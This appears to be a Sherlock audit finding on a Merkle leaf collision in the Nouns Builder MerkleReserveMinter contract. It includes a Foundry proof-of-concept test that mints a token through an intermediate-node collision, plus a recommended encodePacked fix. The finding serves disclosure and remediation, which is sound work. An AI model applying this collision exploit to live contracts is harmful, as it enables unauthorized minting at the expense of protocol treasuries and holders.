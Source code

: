 Puny Flint Pony

medium

# Merkle leaf values for MerkleMinterSettings.merkleRoot are 64 bytes before hashing, vulnerable to merkle tree collisions.

## Summary
The input of keccak256 function is 64 bytes long, so it can lead to unintended minting from `MerkleReserveMinter.mintFromReserve`.

## Vulnerability Detail
If the left merkle node has 12 leading zeros and the right merkle node is under the reserved, left and right nodes can
be mistaken for `minter` and `tokenId`.
Add the code below in `test/MerkleReserveMinter.t.sol` and run `forge test --mt test_POC1`.

```solidity
    // @audit It is a potential trap to set the total length of keccak256 function inputs as 64 bytes.
    // The intermediate merkle nodes are also 32 bytes, so unluckily, left and right nodes can be mistaken for `minter` and `tokenId`.
    // MerkleTree Example
    //    root
    //    / \
    // 0xC3  1
    // This is a modified test of test_MintFlowWithValue.
    function test_POC1() public {
        deployAltMock(20);

        address alice = address(0xC3);

        // Both are same.
        // bytes32 root = bytes32(0xa718fbd65f9e9f6c5506566b1c70eac0a04cfeba6e444cecdb4cda0272f03e68);
        bytes32 root = keccak256(abi.encode(alice, uint256(1)));

        MerkleReserveMinter.MerkleMinterSettings memory settings = MerkleReserveMinter.MerkleMinterSettings({
            mintStart: 0,
            mintEnd: uint64(block.timestamp + 1000),
            pricePerToken: 0.5 ether,
            merkleRoot: root
        });

        vm.prank(address(founder));
        minter.setMintSettings(address(token), settings);

        TokenTypesV2.MinterParams memory params = TokenTypesV2.MinterParams({ minter: address(minter), allowed: true });
        TokenTypesV2.MinterParams[] memory minters = new TokenTypesV2.MinterParams[](1);
        minters[0] = params;
        vm.prank(address(founder));
        token.updateMinters(minters);

        bytes32[] memory proof = new bytes32[](0);

        MerkleReserveMinter.MerkleClaim[] memory claims = new MerkleReserveMinter.MerkleClaim[](1);
        claims[0] = MerkleReserveMinter.MerkleClaim({ mintTo: alice, tokenId: 1, merkleProof: proof });

        uint256 fees = minter.getTotalFeesForMint(address(token), claims.length);
        vm.deal(claimer1, fees);

        vm.prank(claimer1);
        minter.mintFromReserve{ value: fees }(address(token), claims);

        assertEq(token.ownerOf(1), alice);
        assertEq(address(treasury).balance, fees - minter.BUILDER_DAO_FEE());
    }
```

It is similar with this finding.
https://audits.sherlock.xyz/contests/71/report#issue-m-5-merkle-leaf-values-for-_clubdivsmerkleroot-are-64-bytes-before-hashing-which-can-lead-to-merkle-tree-collisions

## Impact
Unintended minting of NFTs.

## Code Snippet
https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/minters/MerkleReserveMinter.sol#L160

## Tool used
Manual Review and foundry tests.

## Recommendation
Update [`MerkleReserveMinter.mintFromReserve`](https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/minters/MerkleReserveMinter.sol#L160) as below.
`abi.encodePacked(claim.mintTo, claim.tokenId)` is 20 + 32 = 52 bytes long and this vulnerability is only valid for 64 bytes long inputs of keccak256.
```diff
-                if (!MerkleProof.verify(claim.merkleProof, settings.merkleRoot, keccak256(abi.encode(claim.mintTo, claim.tokenId)))) {
+                if (!MerkleProof.verify(claim.merkleProof, settings.merkleRoot, keccak256(abi.encodePacked(claim.mintTo, claim.tokenId)))) {
```
